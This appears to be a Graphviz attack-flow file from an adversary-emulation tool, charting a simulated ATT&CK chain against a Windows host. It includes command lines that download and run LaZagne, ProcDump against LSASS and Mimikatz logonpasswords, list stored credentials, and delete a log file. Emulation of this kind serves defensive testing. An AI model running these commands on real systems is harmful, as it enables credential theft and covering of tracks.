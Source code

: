 digraph {
	label=<<font point-size="24">Test</font><br/><i>Plan that tests basic chain execution.</i><br/><font point-size="10">Author: APT Simulator</font><br/><font point-size="10">Created: 2024-05-05 20:03:12.497584+00:00</font><br/><font point-size="10">Modified: 2024-05-05 20:03:12.497584+00:00</font>>;
	labelloc="t";
	"attack-action--148db1da-e8ae-4f11-b8dd-587283996137" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1566.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1566.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Give remote shell under non-privileged<br/>account(run .ps1 =&gt; reverse shell)</TD></TR></TABLE>> shape=plaintext]
	"attack-action--148db1da-e8ae-4f11-b8dd-587283996137" -> "attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=asset]
	"attack-action--148db1da-e8ae-4f11-b8dd-587283996137" -> "attack-action--80b34975-61c9-464b-9752-e8aa3a60849d" [label=effect]
	"attack-action--148db1da-e8ae-4f11-b8dd-587283996137" -> "attack-action--c781e2b6-67f2-46d0-a93e-38e55f85f309" [label=effect]
	"attack-action--148db1da-e8ae-4f11-b8dd-587283996137" -> "process--d2a67536-cd06-4c1a-bb82-31369efa05f4" [label=process]
	"attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--d2a67536-cd06-4c1a-bb82-31369efa05f4" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT"># Execution not required for this action, only set up.</TD></TR></TABLE>> shape=plaintext]
	"attack-action--c781e2b6-67f2-46d0-a93e-38e55f85f309" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1204.002</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1204.002</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--80b34975-61c9-464b-9752-e8aa3a60849d" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1083</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1083</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">File and Directory Discovery (cmd.exe)</TD></TR></TABLE>> shape=plaintext]
	"attack-action--80b34975-61c9-464b-9752-e8aa3a60849d" -> "attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=asset]
	"attack-action--80b34975-61c9-464b-9752-e8aa3a60849d" -> "attack-action--16c42a0a-09cb-4629-bcd4-7654e02e609c" [label=effect]
	"attack-action--80b34975-61c9-464b-9752-e8aa3a60849d" -> "process--2918e00a-0430-44a0-b483-65678f8423a9" [label=process]
	"attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--2918e00a-0430-44a0-b483-65678f8423a9" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">dir /s c:\\ &gt;&gt; T1083_cmd_text.txt ;dir /s &quot;c:\\Documents and Settings&quot; &gt;&gt; T1083_cmd_text.txt ;dir<br/>/s &quot;c:\\Program Files\\&quot; &gt;&gt; T1083_cmd_text.txt ;dir &quot;%systemdrive%\\Users\\*.*&quot; &gt;&gt;<br/>T1083_cmd_text.txt ;dir &quot;%userprofile%\\AppData\\Roaming\\Microsoft\\Windows\\Recent\\*.*&quot; &gt;&gt;<br/>T1083_cmd_text.txt ;dir &quot;%userprofile%\\Desktop\\*.*&quot; &gt;&gt; T1083_cmd_text.txt ;tree /F &gt;&gt;<br/>T1083_cmd_text.txt ;dir c:\\</TD></TR></TABLE>> shape=plaintext]
	"attack-action--16c42a0a-09cb-4629-bcd4-7654e02e609c" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1552.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1552.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Extract Browser and System credentials<br/>with LaZagne</TD></TR></TABLE>> shape=plaintext]
	"attack-action--16c42a0a-09cb-4629-bcd4-7654e02e609c" -> "attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=asset]
	"attack-action--16c42a0a-09cb-4629-bcd4-7654e02e609c" -> "attack-action--4085b828-64b0-4c95-83d3-46878991785c" [label=effect]
	"attack-action--16c42a0a-09cb-4629-bcd4-7654e02e609c" -> "attack-action--ddd67b89-eaf9-4333-bfd2-352625371bc3" [label=effect]
	"attack-action--16c42a0a-09cb-4629-bcd4-7654e02e609c" -> "process--75b02554-68f1-4d6f-a53f-76191c69611b" [label=process]
	"attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--75b02554-68f1-4d6f-a53f-76191c69611b" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">wget http:///LaZagne.exe -OutFile LaZagne.exe; .\\LaZagne.exe all</TD></TR></TABLE>> shape=plaintext]
	"attack-action--ddd67b89-eaf9-4333-bfd2-352625371bc3" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1105</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1105</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Inherited or executed simultaneously</TD></TR></TABLE>> shape=plaintext]
	"attack-action--4085b828-64b0-4c95-83d3-46878991785c" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1003.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1003.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Dump LSASS.exe Memory using ProcDump</TD></TR></TABLE>> shape=plaintext]
	"attack-action--4085b828-64b0-4c95-83d3-46878991785c" -> "attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=asset]
	"attack-action--4085b828-64b0-4c95-83d3-46878991785c" -> "attack-action--8daf7053-93ce-4c8d-9f3e-d2e56c6149d8" [label=effect]
	"attack-action--4085b828-64b0-4c95-83d3-46878991785c" -> "process--907b5b3f-0431-4117-95b8-716064d34683" [label=process]
	"attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--907b5b3f-0431-4117-95b8-716064d34683" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">wget http:///procdump.exe -OutFile procdump.exe; .\\procdump.exe -accepteula -ma lsass.exe lsass.dmp</TD></TR></TABLE>> shape=plaintext]
	"attack-action--8daf7053-93ce-4c8d-9f3e-d2e56c6149d8" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1003.001</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1003.001</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Mimikatz.exe logonpasswords</TD></TR></TABLE>> shape=plaintext]
	"attack-action--8daf7053-93ce-4c8d-9f3e-d2e56c6149d8" -> "attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=asset]
	"attack-action--8daf7053-93ce-4c8d-9f3e-d2e56c6149d8" -> "attack-action--537b864c-97da-46f7-a081-378673c80099" [label=effect]
	"attack-action--8daf7053-93ce-4c8d-9f3e-d2e56c6149d8" -> "process--7a517ece-afa3-45e6-ad1c-114cc4b94b9a" [label=process]
	"attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--7a517ece-afa3-45e6-ad1c-114cc4b94b9a" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">wget http:///mimikatz.exe -OutFile mimikatz.exe; .\\mimikatz.exe &quot;privilege::debug&quot;<br/>&quot;sekurlsa::logonpasswords&quot; exit</TD></TR></TABLE>> shape=plaintext]
	"attack-action--537b864c-97da-46f7-a081-378673c80099" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1003.005</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1003.005</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">List credentials currently stored on the<br/>host via the built-in Windows utility<br/>cmdkey.exe</TD></TR></TABLE>> shape=plaintext]
	"attack-action--537b864c-97da-46f7-a081-378673c80099" -> "attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=asset]
	"attack-action--537b864c-97da-46f7-a081-378673c80099" -> "attack-condition--da035b96-af9e-4bc3-87e2-18c1e277af68" [label=condition]
	"attack-action--537b864c-97da-46f7-a081-378673c80099" -> "process--9ae05819-79f3-4917-832d-3147efaa0cb9" [label=process]
	"attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--9ae05819-79f3-4917-832d-3147efaa0cb9" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">cmdkey /list</TD></TR></TABLE>> shape=plaintext]
	"attack-condition--da035b96-af9e-4bc3-87e2-18c1e277af68" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ff99" COLSPAN="2"><B>Condition</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">create_file_on_host =&gt; echo<br/>Vb4TNg2SAQ &gt;<br/>C:\\Windows\\Logs\\T1070.004_1_logs.log</TD></TR></TABLE>> shape=plaintext]
	"attack-condition--da035b96-af9e-4bc3-87e2-18c1e277af68" -> "attack-action--89e38c9a-1cc4-4e4b-89a8-09e946f05b8a" [label=on_true]
	"attack-action--89e38c9a-1cc4-4e4b-89a8-09e946f05b8a" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#99ccff" COLSPAN="2"><B>Action: T1070.004</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Name</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">T1070.004</TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">Delete file from privleged<br/>&quot;logs&quot; folder</TD></TR></TABLE>> shape=plaintext]
	"attack-action--89e38c9a-1cc4-4e4b-89a8-09e946f05b8a" -> "attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=asset]
	"attack-action--89e38c9a-1cc4-4e4b-89a8-09e946f05b8a" -> "process--0327a6bf-08a2-4943-8465-9f538892bcab" [label=process]
	"attack-asset--92cc1b78-bb84-4f55-979b-d82ad4c81636" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="5"><TR><TD BGCOLOR="#cc99ff" COLSPAN="2"><B>Asset: asset</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Description</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">TargetFirstWindows</TD></TR></TABLE>> shape=plaintext]
	"process--0327a6bf-08a2-4943-8465-9f538892bcab" [label=<<TABLE BORDER="0" CELLBORDER="1" CELLSPACING="0" CELLPADDING="4"><TR><TD COLSPAN="2"><B>Process</B></TD></TR><TR><TD ALIGN="LEFT" BALIGN="LEFT"><B>Command Line</B></TD><TD ALIGN="LEFT" BALIGN="LEFT">del C:\\Windows\\Logs\\T1070.004_1_logs.log</TD></TR></TABLE>> shape=plaintext]
}
